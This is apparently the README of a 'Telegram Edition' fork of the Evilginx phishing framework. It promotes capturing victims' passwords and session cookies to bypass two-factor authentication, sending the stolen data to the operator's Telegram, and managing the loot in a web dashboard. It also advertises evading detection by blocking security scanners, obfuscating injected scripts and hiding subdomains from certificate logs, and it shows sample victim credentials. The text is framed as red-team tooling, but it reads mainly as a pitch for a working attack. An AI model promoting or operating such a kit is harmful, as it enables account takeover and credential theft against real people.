

<!--
╔══════════════════════════════════════════════════════════════════════════════╗
║                                                                            ║
║                      🦊  E V I L G I N X 3                                ║
║                     T E L E G R A M   E D I T I O N                       ║
║                                                                            ║
║         Man-in-the-Middle Attack Framework with 2FA Bypass                ║
║                  & Real-Time Telegram Alerts                               ║
║                                                                            ║
║                  Created with ❤ by @officialmonsterz                      ║
║                                                                            ║
╚══════════════════════════════════════════════════════════════════════════════╝
-->

<p align="center">
  
</p>

<h1 align="center" style="font-family: 'Courier New', monospace; font-size: 2.5em; color: #ff6b35; text-shadow: 0 2px 4px rgba(0,0,0,0.3);">
  🦊 Evilginx3 — Telegram Edition
</h1>

<p align="center" style="font-size: 1.15em; font-weight: 500; color: #555;">
  <strong>
    The Advanced Man-in-the-Middle Attack Framework with 2FA Bypass<br>
    & Real-Time Telegram Alerts — Supercharged for Red Teams
  </strong>
</p>

<br>

<p align="center">
  <a href="https://t.me/officialmonsterz">
    
  </a>
  <a href="mailto:shapads@tutamail.com">
    
  </a>
  <a href="https://github.com/officialmonsterz/evilginx2">
    
  </a>
</p>

<p align="center">
  <a href="https://github.com/officialmonsterz/evilginx2/blob/master/LICENSE">
    
  </a>
  
  
  
  
  
</p>

<br>

---

<br>

<p align="center">
  
</p>

<br>

---

<br>

# 📋 Table of Contents

- [🧠 What Is Evilginx3? (The Simple Explanation)](#-what-is-evilginx3-the-simple-explanation)
- [🎯 How It Works — The Big Picture](#-how-it-works--the-big-picture)
- [⚡ Why This Fork? (What Makes It Special)](#-why-this-fork-what-makes-it-special)
- [📊 Original Evilginx vs This Fork vs Other Verified Repos — Full Comparison](#-original-evilginx-vs-this-fork-vs-other-verified-repos--full-comparison)
- [✨ New Features Deep Dive](#-new-features-deep-dive)
  - [📱 1. Telegram Notifications — The Core Feature](#-1-telegram-notifications--the-core-feature)
  - [📊 2. Web Dashboard](#-2-web-dashboard)
  - [💾 3. BuntDB Embedded Database](#-3-buntdb-embedded-database)
  - [🐳 4. Multi-Stage Docker Build (~18MB Alpine)](#-4-multi-stage-docker-build-18mb-alpine)
  - [📁 5. Auto-Export System](#-5-auto-export-system)
  - [🔒 6. Wildcard SSL Support (TLD Wildcard)](#-6-wildcard-ssl-support-tld-wildcard)
- [🚀 Quick Start](#-quick-start)
- [📱 Telegram Integration](#-telegram-integration)
- [📊 Web Dashboard](#-web-dashboard)
- [🐳 Docker Support](#-docker-support)
- [🧬 Architecture & Data Flow](#-architecture--data-flow)
- [📂 Repository File Structure](#-repository-file-structure)
- [⚖️ Disclaimer](#%EF%B8%8F-disclaimer)
- [👏 Credits & Support](#-credits--support)

<br>

---

<br>

# 🧠 What Is Evilginx3? (The Simple Explanation)

> **Evilginx3 is a tool that lets you capture someone's login credentials AND their session cookies — even if they use two-factor authentication (2FA).**

Let me explain this in plain English.

## The Problem Evilginx3 Solves

Normally, when a website has **2FA (two-factor authentication)**, capturing just a username and password isn't enough. Even if you know someone's password, you still need their 2FA code (like a text message code or authenticator app code) to log in.

**Evilginx3 bypasses this problem entirely.**

Instead of trying to steal the 2FA code, it steals the **session cookie** — which is the digital "I'm already logged in" ticket that the website gives you AFTER you finish logging in. Once you have this cookie, you can import it into your browser and you're instantly logged in as that user, with **zero need for a 2FA code**.

## In Real-World Terms

Imagine you want to test your company's security (this is an authorized penetration test).

1. You send an email to employees: "Please verify your Office 365 account"
2. The link goes to a page that **looks exactly** like Microsoft's login page
3. When an employee types their username, password, AND 2FA code... the login **actually works** (they see no error)
4. BUT — without them knowing — Evilginx3 has captured their session cookie
5. You get an **instant notification on your phone** via Telegram with the credentials AND the cookie file
6. You import that cookie into your browser, and now you're logged in as that employee — 2FA completely bypassed

> **This is called a "man-in-the-middle" (MITM) attack.** Evilginx3 sits between the victim and the real website, forwarding traffic in both directions while silently copying everything valuable.

<br>

---

<br>

# ✨ Key Features (What Makes This the Best)

1. **📱 Telegram Edition**  
   Instant alerts with credentials + downloadable `.txt` token file. Messages update automatically if more tokens arrive.

2. **🛡️ Wildcard Certificate Protection**  
   Only `*.yourdomain.com` appears in Certificate Transparency logs. No individual subdomains like `login.yourdomain.com`.

3. **🔄 Dynamic unauth_url Spoofing**  
   Scanners see real website content (Wikipedia/Google) under your domain instead of a suspicious redirect.

4. **🕵️ Bot Protection**  
   Blocks VirusTotal, URLScan.io, PhishTank, headless browsers, and scanners using multiple signals.

5. **📝 JS Obfuscation**  
   Injected JavaScript is base64-encoded and unreadable to security scanners.

6. **🔗 URL Rewriting**  
   Address bar shows clean relative paths instead of exposing the real target structure.

7. **📊 Full Web Dashboard**  
   View, search, filter, export CSV/JSON, and delete sessions from any browser.


# Delivery Channels

## 📱 Telegram
- Instant alert
- Credentials shown
- Token `.txt` file
- Auto-updates

## 📊 Web Dashboard
- View all sessions
- Search & filter
- Export CSV/JSON
- Delete sessions
- Dark mode UI

## 💾 BuntDB
- Embedded database
- Zero configuration
- No SQL required

## 📁 Auto-Export
- JSON files per session
- CSV for reporting
- Appends to master file

<br>

---

<br>

# ⚡ Why This Fork? (What Makes It Special)

This fork by **[@officialmonsterz](https://t.me/officialmonsterz)** takes the already powerful Evilginx3 and supercharges it with **features that penetration testers actually need in real engagements**.

## The Problem with the Original Evilginx

The original Evilginx3 is a **phenomenal framework** — powerful, elegant, and battle-tested. But it has some real-world limitations:

| Problem | Why It Matters |
|:--------|:---------------|
| ❌ **No notifications** | You have to constantly stare at a terminal or SSH into a server to see if you caught anything |
| ❌ **No web interface** | Everything is CLI-only — no easy way to browse captured sessions |
| ❌ **No database** | Sessions are logged to plain text files — no search, no filtering |
| ❌ **No export** | If you need to generate a report, you're manually copying data |
| ❌ **No Docker optimization** | The build produces a large image — not ideal for cloud deployment |

## What This Fork Solves

> **"The difference between a good tool and a great tool is how it fits into your workflow."**

| Reason | What It Means For You |
|:-------|:----------------------|
| 🚀 **Instant Results** | Credentials hit your Telegram **within seconds** of capture — no more refreshing CLI or SSH'ing into servers |
| 📎 **Portable Tokens** | Tokens are saved as `.txt` files that you can import into **any browser** with EditThisCookie — ready to use immediately |
| 🔄 **No Notification Spam** | If more tokens are captured, the **same Telegram message is updated** — not a new message flooding your chat |
| 📊 **Professional Reporting** | Export sessions as CSV/JSON for your penetration test reports — documentation-ready |
| 🛡️ **Built for Red Teams** | Dashboard + Telegram = monitor multiple campaigns from anywhere in the world |
| 🐳 **Deploy Anywhere** | Docker image works on any Linux server in seconds — AWS, DigitalOcean, Hetzner, anything |
| 🔧 **Zero Extra Config** | No MySQL, no Redis, no Nginx, no Node.js — just **one binary** and it runs |
| 💾 **Persistence Built In** | BuntDB stores everything in a single file — no external database server needed |
| 🌐 **Wildcard SSL Ready** | Full wildcard DNS support (`*.yourdomain.com`) — automatically handles SSL for ALL subdomains |

<br>

---

<br>

# 📊 Original Evilginx vs This Fork vs Other Verified Repos — Full Comparison

## Why This Comparison Matters

When choosing a tool for your red team operations, you need to know exactly what you're getting. There are several Evilginx forks out there — let me show you **exactly** how they compare.

## The Other Verified Repos

| Repo | Description |
|:-----|:------------|
| **[kgretzky/evilginx2](https://github.com/kgretzky/evilginx2)** | The **original** by Kuba Gretzky. The foundation. Stable, battle-tested, but CLI-only. |
| **[kgretzky/evilginx3](https://github.com/kgretzky/evilginx3)** | The **successor** — rewritten in Go. Same core, improved performance. Still CLI-only. |
| **[An0nUD4Y/Evilginx2-Phishlets](https://github.com/An0nUD4Y/Evilginx2-Phishlets)** | Community phishlet collection — not a fork of the tool itself, just templates. |
| **[An0nUD4Y/Evilginx2-Phishlets-2FA-Bypass](https://github.com/An0nUD4Y/Evilginx2-Phishlets-2FA-Bypass)** | Another phishlet collection with 2FA bypass templates. |
| **[helpsec/evilginx2-signature](https://github.com/helpsec/evilginx2-signature)** | Modified version with signature detection bypasses. |
| **[this fork — officialmonsterz/evilginx2](https://github.com/officialmonsterz/evilginx2)** | **Telegram Edition** — everything the original has, plus Telegram, Dashboard, Database, Docker, and more. |

## Complete Feature Comparison Matrix

# 📋 Feature Comparison Matrix

## 🧠 Core Engine

| Feature                          | Evilginx2 (kgretzky) | Evilginx3 (kgretzky) | An0nUD4Y Phishlets | helpsec Signature Fork | This Fork (Telegram Edition) |
| -------------------------------- | -------------------- | -------------------- | ------------------ | ---------------------- | ---------------------------- |
| MITM Proxy Engine                | ✅                    | ✅                    | ❌ N/A              | ✅                      | ✅ Enhanced                   |
| SSL / Autocert (Let's Encrypt)   | ✅                    | ✅                    | ❌ N/A              | ✅                      | ✅ Wildcard Support           |
| Phishlet System (YAML Templates) | ✅                    | ✅                    | ✅ Added            | ✅                      | ✅ Includes All               |
| Built-in DNS Server              | ✅                    | ✅                    | ❌ N/A              | ✅                      | ✅                            |
| Nameserver / Blacklist           | ✅                    | ✅                    | ❌ N/A              | ✅                      | ✅                            |

---

## 📱 Notifications

| Feature                         | Evilginx2 | Evilginx3 | An0nUD4Y Phishlets | helpsec Signature Fork | This Fork (Telegram Edition) |
| ------------------------------- | --------- | --------- | ------------------ | ---------------------- | ---------------------------- |
| Telegram Notifications          | ❌         | ❌         | ❌                  | ❌                      | ✅ Real-Time Alerts           |
| Token `.txt` Attachments        | ❌         | ❌         | ❌                  | ❌                      | ✅ Downloadable Files         |
| Auto-Updating Telegram Messages | ❌         | ❌         | ❌                  | ❌                      | ✅ Message Editing            |
| Async Notification Queue        | ❌         | ❌         | ❌                  | ❌                      | ✅ Non-Blocking               |

---

## 📊 Dashboard & UI

| Feature                   | Evilginx2 | Evilginx3 | An0nUD4Y Phishlets | helpsec Signature Fork | This Fork (Telegram Edition) |
| ------------------------- | --------- | --------- | ------------------ | ---------------------- | ---------------------------- |
| Web Dashboard (Port 5000) | ❌         | ❌         | ❌                  | ❌                      | ✅ Full UI + API              |
| Session Search & Filter   | ❌         | ❌         | ❌                  | ❌                      | ✅                            |
| Dark Mode                 | ❌         | ❌         | ❌                  | ❌                      | ✅                            |
| Pagination                | ❌         | ❌         | ❌                  | ❌                      | ✅                            |
| Dashboard Authentication  | ❌         | ❌         | ❌                  | ❌                      | ✅ Basic Auth                 |

---

## 💾 Database & Storage

| Feature                    | Evilginx2 | Evilginx3 | An0nUD4Y Phishlets | helpsec Signature Fork | This Fork (Telegram Edition) |
| -------------------------- | --------- | --------- | ------------------ | ---------------------- | ---------------------------- |
| Embedded Database (BuntDB) | ❌         | ❌         | ❌                  | ❌                      | ✅                            |
| CSV Export                 | ❌         | ❌         | ❌                  | ❌                      | ✅                            |
| JSON Export                | ❌         | ❌         | ❌                  | ❌                      | ✅                            |
| Session Deletion (UI/API)  | ❌         | ❌         | ❌                  | ❌                      | ✅                            |
| Automatic Session Export   | ❌         | ❌         | ❌                  | ❌                      | ✅                            |

---

## 🔒 Stealth & Bypass

| Feature                    | Evilginx2 | Evilginx3 | An0nUD4Y Phishlets | helpsec Signature Fork | This Fork (Telegram Edition) |
| -------------------------- | --------- | --------- | ------------------ | ---------------------- | ---------------------------- |
| Header Stripping           | ❌         | ❌         | ❌                  | ✅                      | ✅                            |
| Signature Detection Bypass | ❌         | ❌         | ❌                  | ✅                      | ❌ (Use helpsec Fork)         |
| Wildcard SSL Certificates  | ❌         | ❌         | ❌                  | ❌                      | ✅                            |

---

## 🐳 Deployment

| Feature                       | Evilginx2 | Evilginx3 | An0nUD4Y Phishlets | helpsec Signature Fork | This Fork (Telegram Edition) |
| ----------------------------- | --------- | --------- | ------------------ | ---------------------- | ---------------------------- |
| Multi-Stage Docker Build      | ❌         | ❌         | ❌                  | ❌                      | ✅ (~18MB Alpine)             |
| Docker Compose Support        | ❌         | ❌         | ❌                  | ❌                      | ✅                            |
| Non-Root Container User       | ❌         | ❌         | ❌                  | ❌                      | ✅                            |
| Systemd Service Documentation | ❌ Manual  | ❌ Manual  | ❌ N/A              | ❌ Manual               | ✅ Full Guide                 |

---

## 📚 Documentation

| Feature                            | Evilginx2 | Evilginx3 | An0nUD4Y Phishlets | helpsec Signature Fork | This Fork (Telegram Edition) |
| ---------------------------------- | --------- | --------- | ------------------ | ---------------------- | ---------------------------- |
| Beginner-Friendly Guide            | ⚠️ Basic  | ⚠️ Basic  | ❌ N/A              | ⚠️ Basic               | ✅ Comprehensive              |
| Architecture Deep Dive             | ❌         | ❌         | ❌                  | ❌                      | ✅                            |
| Troubleshooting Guide              | ⚠️ Basic  | ⚠️ Basic  | ❌ N/A              | ⚠️ Basic               | ✅                            |
| Deployment Guide (`DEPLOYMENT.md`) | ❌         | ❌         | ❌                  | ❌                      | ✅ 12-Phase Guide             |

---

## 🏆 Summary

| Category         | Winner                                         |
| ---------------- | ---------------------------------------------- |
| Core Engine      | Tie (Evilginx2 / Evilginx3 / Telegram Edition) |
| Notifications    | Telegram Edition                               |
| Dashboard & UI   | Telegram Edition                               |
| Storage & Export | Telegram Edition                               |
| Deployment       | Telegram Edition                               |
| Documentation    | Telegram Edition                               |
| Signature Bypass | helpsec Signature Fork                         |

> **Note:** The Telegram Edition focuses on operational visibility, dashboard management, export capabilities, deployment simplicity, and documentation, while the helpsec fork remains the preferred option for signature-detection bypass techniques.


---

## Legend

| Symbol | Meaning |
|----------|----------|
| ✅ | Supported |
| ❌ | Not Supported |
| ⚠️ | Basic / Limited Support |
| N/A | Not Applicable |


## Why This Fork Is The Best Choice

### 1. **Feature Completeness**
This fork has **17 new features** that the original doesn't. No other single fork comes close. You get:
- Telegram notifications
- Web dashboard
- Embedded database
- CSV/JSON export
- Auto-export
- Multi-stage Docker
- Wildcard SSL
- And more...

### 2. **Workflow Integration**
The original Evilginx requires you to:
1. SSH into your server
2. Check the terminal output
3. Manually parse log files
4. Copy-paste cookies manually

This fork lets you:
1. Get a Telegram message instantly
2. Open the dashboard from any browser
3. Export reports with one click
4. Import cookies directly from .txt files

### 3. **Professional Reporting**
Red team assessments require documentation. This fork provides:
- CSV export (spreadsheet-ready for your report)
- JSON export (machine-readable for processing)
- Auto-save (every session is automatically saved)

### 4. **Deployment Flexibility**
- **Bare metal** — works on any Linux server
- **Docker** — deploy to AWS, DigitalOcean, or any cloud
- **Systemd** — runs as a production service with auto-restart

### 5. **Active Maintenance**
- Regular updates
- Bug fixes
- Community support via Telegram
- Responsive to issues and feature requests

> **Bottom line:** If you're running real red team operations, this fork gives you the features you need without requiring you to build them yourself. It's the original Evilginx, but production-ready for modern engagements.

<br>

---

<br>

# ✨ New Features Deep Dive

Let me walk you through every new feature in detail, with architecture diagrams and explanations in plain English.

---

## 📱 1. Telegram Notifications — The Core Feature

This is the **flagship feature** of this fork. When a victim submits credentials on your phishing page, you get an **instant Telegram message** on your phone with all the details. Within seconds, you know:
- Who submitted credentials
- What password they used
- What tokens/cookies were captured
- Their IP address
- Their browser/device info

### What Your Telegram Message Looks Like

# ✨ Session Information

| Field                 | Value                                          |
| --------------------- | ---------------------------------------------- |
| 👤 **Username**       | `victim@company.com`                           |
| 🔑 **Password**       | `SuperSecret123!`                              |
| 🌐 **Landing URL**    | `https://login.yourdomain.com/abc123`          |
| 🖥️ **User Agent**    | `Mozilla/5.0 (Windows NT 10.0; Win64; x64)...` |
| 🌍 **Remote Address** | `203.0.113.42`                                 |
| 🕒 **Created**        | `1780014345`                                   |

---

### 📦 Additional Information

* Tokens are attached as a separate file.
* This message will be updated automatically if additional tokens are received.

---

*Generated session record.*

### How Telegram Notifications Work (Behind the Scenes)

# Telegram Notification Flow



````

## Workflow Summary

### 1. Session Capture
When credentials or session tokens are captured, a notification job is created.

### 2. Async Queue
The notification is added to an asynchronous Telegram queue:

- File: `core/telegram_queue.go`
- Buffer size: `100` jobs
- Non-blocking operation

### 3. Queue Benefits
The proxy remains fully operational even when:

- Telegram is unreachable
- Telegram API is slow
- Network connectivity is unstable

Pending notifications remain queued until delivery becomes possible.

### 4. Notification Processing
Queued jobs are processed by:

```text
core/notify.go
````

### 5. First Capture Flow

1. Generate a `.txt` file containing session data.
2. Format a Telegram message using MarkdownV2.
3. Upload the file through the Telegram API.
4. Store the returned `message_id`.

### 6. Subsequent Capture Flow

1. Generate an updated `.txt` file.
2. Retrieve the previously stored `message_id`.
3. Use Telegram's message editing functionality.
4. Update the existing Telegram message instead of creating a new one.

### Result

✅ One Telegram message per victim/session

✅ Session data remains updated in-place

✅ No notification spam

✅ Resilient to Telegram outages

✅ Non-blocking architecture

```
```

### Why This Matters

| Scenario | Without This Feature | With This Feature |
|:---------|:--------------------|:------------------|
| You're away from your desk | You miss the capture | Your phone buzzes instantly |
| You're running 5 campaigns | Hard to monitor all | Each campaign sends separate notifications |
| A target logs in at 3 AM | You find out in the morning | You get woken up (or see it on your phone) |
| Multiple tokens captured | You see only the last one | The same message updates with all tokens |

### Key Files

| File | Purpose |
|:-----|:--------|
| `core/telegram_queue.go` | Async notification queue — buffered channel, processes jobs in background, never blocks the proxy |
| `core/notify.go` | Notification logic — creates `.txt` files, formats messages with MarkdownV2, sends/edits via API |
| `core/tele.go` | Low-level Telegram API calls — `sendTelegramNotification()`, `editMessageFile()`, etc. |
| `core/tsession.go` | `TSession` struct — JSON representation of a session for Telegram communication |
| `core/telegram_escape.go` | Escapes special characters for MarkdownV2 formatting (required by Telegram API) |

---

## 📊 2. Web Dashboard

Access your captured sessions from any browser at `http://YOUR_SERVER_IP:5000`. No need to SSH into the server just to check if you've caught anything.

### Dashboard Layout

# 🦊 Evilginx2 — Telegram Edition

> 🌙 Dark Mode UI
> Created by **@officialmonsterz**

---

## 📊 Dashboard Overview

| Metric        | Value |
| ------------- | ----: |
| Total Records |    42 |
| Unique Users  |     3 |
| Display Count |    20 |

---

## 🔎 Controls

```text
[🔍 Search... ]   [📁 All Phishlets ▼]

[📥 Export CSV]   [📥 Export JSON]   [🔄 Refresh]
```

---

## 📋 Records

| # | Phishlet  | Username                                          | Password     | Remote Address |
| - | --------- | ------------------------------------------------- | ------------ | -------------- |
| 1 | office365 | [ceo@megacorp.com](mailto:ceo@megacorp.com)       | Winter2024!  | 203.0.113.42   |
| 2 | google    | [admin@startup.io](mailto:admin@startup.io)       | P@ssw0rd     | 198.51.100.7   |
| 3 | linkedin  | [hr@company.org](mailto:hr@company.org)           | Recruit123   | 192.0.2.88     |
| 4 | office365 | [finance@corp.net](mailto:finance@corp.net)       | Q1Report!    | 203.0.113.15   |
| 5 | facebook  | [marketing@brand.com](mailto:marketing@brand.com) | AdBudget2024 | 198.51.100.33  |

---

## 📄 Pagination

```text
◀ Previous Page     Page 1 of 5     Next ▶

🟢 Auto-refresh: ON
```

### Dashboard Features Explained

| Feature | How It Works | Why You Need It |
|:--------|:-------------|:----------------|
| **🔍 Search** | Type anything — username, password, IP, phishlet name | Find a specific session quickly among hundreds |
| **📁 Filter by Phishlet** | Dropdown to show only one phishlet type | Focus on one campaign at a time |
| **📥 Export CSV** | Downloads all sessions as a CSV file | Import into Excel for your penetration test report |
| **📥 Export JSON** | Downloads all sessions as JSON | Process programmatically or import into other tools |
| **🔄 Auto-Refresh** | Refreshes every 5 seconds automatically | Always see the latest captures without refreshing |
| **🌙 Dark Mode** | Toggle dark/light theme | Comfortable viewing in low-light environments |
| **📄 Row Click** | Click any row to see full session details | View all cookies and tokens for a session |
| **🗑️ Delete** | Delete individual sessions | Clean up test data or remove irrelevant captures |
| **📊 Pagination** | Navigate through pages of results | Handle hundreds or thousands of sessions |

### REST API Endpoints

The dashboard exposes a full REST API for programmatic access. This means you can integrate it with other tools or scripts.

# Sessions API

| Endpoint | Method | Purpose |
|----------|--------|---------|
| `/api/sessions` | `GET` | List all sessions |
| `/api/sessions?search=admin` | `GET` | Search sessions by keyword |
| `/api/sessions?phishlet=office365` | `GET` | Filter sessions by phishlet name |
| `/api/sessions?limit=10&offset=0` | `GET` | Pagination (10 results per page, first page) |
| `/api/sessions/export?format=csv` | `GET` | Export all sessions as CSV |
| `/api/sessions/export?format=json` | `GET` | Export all sessions as JSON |
| `/api/sessions/{id}` | `GET` | Retrieve full details for a specific session |
| `/api/sessions/{id}` | `DELETE` | Delete a specific session |

### API Examples

```bash
# List all sessions (authenticated)
curl -u admin:mypass1234 "http://YOUR_SERVER_IP:5000/api/sessions"

# Search for sessions with "admin" in username
curl -u admin:mypass1234 "http://YOUR_SERVER_IP:5000/api/sessions?search=admin"

# Filter by phishlet
curl -u admin:mypass1234 "http://YOUR_SERVER_IP:5000/api/sessions?phishlet=office365"

# Export all sessions as CSV file
curl -u admin:mypass1234 "http://YOUR_SERVER_IP:5000/api/sessions/export?format=csv" -o sessions.csv

# Export all sessions as JSON file
curl -u admin:mypass1234 "http://YOUR_SERVER_IP:5000/api/sessions/export?format=json" -o sessions.json

# Delete session with ID 1
curl -u admin:mypass1234 -X DELETE "http://YOUR_SERVER_IP:5000/api/sessions/1"

Key File

File	Purpose
core/dashboard.go	HTTP server, HTML template, REST API handlers, basic auth middleware — everything in one file

💾 3. BuntDB Embedded Database
No more parsing plain text log files. This fork uses BuntDB — an embedded, zero-configuration, key-value database written in Go, specifically designed for projects that need a database without the complexity of running a separate database server.

Why BuntDB Instead of Plain Text Logs or MySQL?

┌──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                               DATABASE COMPARISON                                                         │
├────────────────────────────┬────────────────────┬────────────────────┬────────────────────────────────────────────────────┤
│      REQUIREMENT           │  PLAIN TEXT LOGS   │  MySQL/PostgreSQL  │  BUNTDB (THIS FORK)                               │
├────────────────────────────┼────────────────────┼────────────────────┼────────────────────────────────────────────────────┤
│  Setup Time                │  None              │  30-60 minutes     │  None! (zero configuration)                        │
│  External Server Needed    │  No                │  Yes (separate)    │  No (embedded in the binary)                       │
│  Dependencies to Install   │  None              │  Many (server,     │  None (everything compiled in)                     │
│                            │                    │  client, drivers)  │                                                    │
│  Query Capability          │  grep only         │  Full SQL          │  JSON indexes (search by any field)                │
│  Backup Procedure          │  cp file           │  mysqldump         │  cp file (that's it)                                │
│  Memory Footprint          │  0 MB              │  100+ MB           │  ~5 MB                                              │
│  Crash Recovery            │  Manual (corrupt)  │  Complex (WAL)     │  Auto (append-only, never corrupts)                │
│  Concurrent Access         │  ❌ No             │  ✅ Yes            │  ✅ Yes (RWMutex built in)                          │
│  Schema Migrations         │  N/A               │  Required          │  No schema needed (JSON documents)                 │
│  Can You Just Copy It?     │  Yes (cp)          │  No (mysqldump)    │  Yes (just cp the file)                             │
└────────────────────────────┴────────────────────┴────────────────────┴────────────────────────────────────────────────────┘

What This Means For You
No setup: You don't need to install MySQL, PostgreSQL, or any database server
No maintenance: BuntDB is embedded in the Evilginx binary. It just works.
Portable: The entire database is a single file (.evilginx/sessions.db). You can copy it to another server and keep working.
Fast: Queries are indexed and fast, even with thousands of sessions
Safe: Append-only logging means crashes don't corrupt your data
Database Schema (Technical)

type Session struct {
    Id           int                                    // Auto-incremented unique ID
    Phishlet     string                                 // e.g. "office365", "google", "linkedin"
    LandingURL   string                                 // The lure URL the victim visited
    Username     string                                 // Captured username or email address
    Password     string                                 // Captured password
    Custom       map[string]string                      // Custom fields from the phishlet template
    BodyTokens   map[string]string                      // Tokens extracted from HTTP response body
    HttpTokens   map[string]string                      // Tokens extracted from HTTP headers
    CookieTokens map[string]map[string]*CookieToken     // Session cookies (the 2FA bypass magic)
    SessionId    string                                 // Unique UUID for this session
    UserAgent    string                                 // Victim's browser user-agent string
    RemoteAddr   string                                 // Victim's IP address
    CreateTime   int64                                  // Unix timestamp when session was created
    UpdateTime   int64                                  // Unix timestamp of last update
    Cmsgid       string                                 // Telegram credential message ID (for updates)
    Tmsgid       string                                 // Telegram token message ID (for updates)
}

Key Files

File	Purpose
database/database.go	BuntDB wrapper — NewDatabase() initialization, helper functions, CRUD dispatch
database/db_session.go	Session struct definition + all CRUD operations (Create, List, Update, Delete, Search)

🐳 4. Multi-Stage Docker Build (~18MB Alpine)
This fork includes a production-ready multi-stage Docker build that produces a minimal ~18MB Alpine-based image.

Why Multi-Stage Docker?
Traditional Docker builds put everything in one image — the compiler, the source code, the build tools — resulting in a huge image (often 500MB+). Multi-stage builds separate the build environment (where you compile the code) from the runtime environment (where you run the compiled program). The result: a tiny, secure, production-ready image.

Docker Build Architecture

┌─────────────────────────────────────────────────────────────────────────────┐
│                        DOCKER BUILD ARCHITECTURE                            │
│                                                                             │
│  STAGE 1: BUILDER (build environment)                                      │
│  ┌─────────────────────────────────────────────────────────────────────┐   │
│  │  FROM golang:1.22-alpine                                          │   │
│  │                                                                     │   │
│  │  • Installs: git, ca-certificates, build-base                       │   │
│  │  • Copies go.mod + go.sum → go mod download (cached for speed)     │   │
│  │  • Copies the source code                                          │   │
│  │  • Builds with: CGO_ENABLED=0, -ldflags="-s -w" (stripped binary)  │   │
│  │  • Output: /build/evilginx (single static binary — NO dependencies) │   │
│  │                                                                     │   │
│  │  💡 LAYER CACHING: go.mod and go.sum rarely change, so Docker      │   │
│  │     caches the "go mod download" step. Only when dependencies       │   │
│  │     change does this layer rebuild. Saves minutes per build.        │   │
│  └─────────────────────────────────────────────────────────────────────┘   │
│                               │                                             │
│                               ▼                                             │
│  STAGE 2: RUNTIME (production environment)                                 │
│  ┌─────────────────────────────────────────────────────────────────────┐   │
│  │  FROM alpine:latest                                               │   │
│  │                                                                     │   │
│  │  • Installs: ca-certificates, tzdata, libcap                        │   │
│  │    (ca-certificates = SSL verification)                              │   │
│  │    (tzdata = timezone data for logs)                                 │   │
│  │    (libcap = allows binding privileged ports as non-root)           │   │
│  │                                                                     │   │
│  │  • Creates 'evilginx' user (non-root! — security best practice)     │   │
│  │                                                                     │   │
│  │  • Copies ONLY the compiled binary from the builder stage           │   │
│  │  • Copies phishlets/ and redirectors/ directories                   │   │
│  │                                                                     │   │
│  │  • Sets cap_net_bind_service=+ep (allows binding ports <1024        │   │
│  │    like port 53, 80, 443 as a non-root user)                       │   │
│  │                                                                     │   │
│  │  • Runs as non-root 'evilginx' user (not root — reduces attack      │   │
│  │    surface if container is compromised)                             │   │
│  │                                                                     │   │
│  │  • Exposes ports: 53 (DNS), 80 (HTTP), 443 (HTTPS), 5000 (Dashboard)│   │
│  │  • Volume: /home/evilginx/.evilginx (persistent data storage)        │   │
│  │                                                                     │   │
│  │  • FINAL IMAGE SIZE: ~18MB (vs 500MB+ for single-stage build)      │   │
│  └─────────────────────────────────────────────────────────────────────┘   │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘


Security Benefits of This Docker Setup

Feature	Why It Matters
Non-root user	If the container is compromised, the attacker doesn't have root access to the host
cap_net_bind_service	Allows binding ports <1024 as non-root (53, 80, 443) — no need to run as root
~18MB image	Smaller attack surface — fewer packages means fewer potential vulnerabilities
Alpine Linux	Minimal base image — contains only what's needed, nothing extra
Volume for data	Database persists even if the container is replaced or updated

Key Files

File	Purpose
Dockerfile	Multi-stage build definition — builder + runtime stages
.dockerignore	Excludes unnecessary files from Docker build context (source cache, etc.)
docker-compose.yml	Docker Compose configuration for easy deployment

📁 5. Auto-Export System
Every captured session is automatically saved to disk as both JSON and CSV files. This ensures you never lose data, even if the database gets corrupted or you need to share data with team members.

How Auto-Export Works

┌──────────────────────────────────────────────┐
│           SESSION CAPTURED                    │
└──────────────────┬───────────────────────────┘
                   │
                   ▼
┌──────────────────────────────────────────────┐
│         1. Save to BuntDB                     │
│         2. Auto-Export to file                │
└──────────────────┬───────────────────────────┘
                   │
                   ▼
    ┌──────────────────────────────┐
    │   📁 exports/ directory      │
    │                              │
    │  ├── session_1.json          │
    │  ├── session_1.csv           │
    │  ├── session_2.json          │
    │  ├── session_2.csv           │
    │  └── ...                     │
    │                              │
    │  Also appends to:            │
    │  ├── all_sessions.json       │
    │  └── all_sessions.csv        │
    └──────────────────────────────┘


Why Auto-Export Matters
Redundancy: Your data is in the database AND in files on disk
Reporting: CSV files are ready to open in Excel or Google Sheets
Sharing: JSON files can be shared with team members or imported into other tools
Archiving: You can archive exported files after a campaign for record-keeping

🔒 6. Wildcard SSL Support (TLD Wildcard)
IMPORTANT CLARIFICATION ON WILDCARD SSL vs AUTOCERT:

The Situation
You mentioned you have a TLD wildcard DNS record (*.entreexampdremd.online pointing to your server IP). This is when Cloudflare or your DNS provider has a wildcard A record that catches ALL subdomains.

How Autocert Behaves with a Wildcard DNS Record

┌─────────────────────────────────────────────────────────────────────────────┐
│                    WILDCARD DNS vs AUTOCERT EXPLAINED                      │
├─────────────────────────────────────────────────────────────────────────────┤
│                                                                             │
│  📌 What is a Wildcard DNS Record?                                        │
│  A DNS record like:  *.entreexampdremd.online  →  173.44.141.147         │
│                                                                             │
│  This means ANY subdomain works: login.yourdomain.com,                     │
│  test.yourdomain.com, anything.yourdomain.com — all point to your server. │
│                                                                             │
│  📌 How Autocert (Let's Encrypt) Works with This                          │
│                                                                             │
